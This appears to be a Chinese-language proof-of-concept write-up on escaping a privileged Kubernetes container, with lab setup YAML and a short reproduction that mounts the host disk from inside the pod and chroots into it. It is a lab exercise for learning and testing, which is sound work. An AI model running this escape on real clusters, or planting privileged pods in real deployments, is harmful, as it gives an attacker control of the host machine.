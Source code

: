 # Kubernetes privileged 特权容器导致容器逃逸

## 漏洞描述

最初，容器特权模式的出现是为了帮助开发者实现 Docker-in-Docker 特性。然而，在特权模式下运行不完全受控容器将给宿主机带来极大安全威胁。

[官方文档](1. [https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities](https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities)) 对特权模式的描述如下：

> 当操作者执行 `docker run --privileged` 时，Docker 将允许容器访问宿主机上的所有设备，同时修改 AppArmor 或 SELinux 的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。

参考链接：

- https://www.docker.com/blog/docker-can-now-run-within-docker/
- https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities
- https://github.com/Metarget/metarget

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f privileged-container.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `privileged-container` 的包含特权容器的 pod：

```
kubectl get pods -n metarget
-----
NAME                   READY   STATUS    RESTARTS   AGE
privileged-container   1/1     Running   0          5s
```

![](images/Kubernetes%20privileged%20特权容器导致容器逃逸/image-20250421192020443.png)

## 漏洞复现

特权模式下容器能够看到宿主机硬盘设备，可以通过挂载宿主机硬盘的方式实现文件系统层面逃逸。

示例如下（硬盘路径需要根据实际环境确定，这里为 `/dev/sda1`）：

```
kubectl exec -n metarget -it privileged-container -- /bin/bash
-----
root@privileged-container:/# fdisk -l | grep /dev/sda1
/dev/sda1  *     2048 209713151 209711104  100G 83 Linux
root@privileged-container:/# mkdir /host
root@privileged-container:/# mount /dev/sda1 /host
root@privileged-container:/# chroot /host
# cat /etc/hostname
ubuntu
```

![](images/Kubernetes%20privileged%20特权容器导致容器逃逸/image-20250421191351590.png)

## 环境复原

```
kubectl delete -f privileged-container.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[privileged-container.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/privileged-container.yaml)

```
apiVersion: v1
kind: Pod
metadata:
  name: privileged-container
  namespace: metarget
spec:
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```
